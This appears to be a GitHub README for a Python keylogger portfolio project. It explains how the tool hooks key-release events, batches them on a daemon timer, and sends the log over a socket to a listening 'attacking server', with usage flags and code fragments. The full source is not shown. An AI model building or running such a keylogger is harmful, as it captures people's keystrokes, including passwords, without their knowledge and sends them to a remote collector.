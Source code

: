# Key_Logger_Socket
## Motivation
Build a portfolio for strong python and networking background<br>
Develop a simple keylogger script with added remote connection feature using python socket module

## Usages
```
Usage:
 -i: interval time (seconds)
 --ip: IP address of the listening server
 -m: method for report the logged key event
```
Example:
```
python Attack_SVR.py
python Key_Logger_Socket.py -i 5 --ip "localhost" -m "chat_svr"
```
### Note
<br>If no method specified, file_reporting will be used.

## Features
### Keyboard module
```
 keyboard.on_release(callback=callback)
```
<br>For every KeyUp events caught by on_release() method from keyboard class, calls the callback funcntion. Callback function would categorize the KeyUp event and populate the log variable. Using callback allow the next line of code to run without having to wait for the return values of on_release()</br>
### Daemon thread and periodic calling
```
timer = Timer(interval=self.interval, function=self.chat_svr_report)
timer.daemon = True
timer.start()
```
Daemon thread will be killed whenever the main thread (Keyboard) dies. Timer class from threading module will allow this function to call itself periodically every [interval] seconds.
### Network Connection
#### Initialize s socket to create a connection back to attacking server
```
 s = socket.socket(AF_INET,SOCK_STREAM)
```
#### On client side
```
 s.connect()
 s.send()
 s.close()
```
#### On server side
```
 s.bind()
 s.listen()
 s.accept()
```
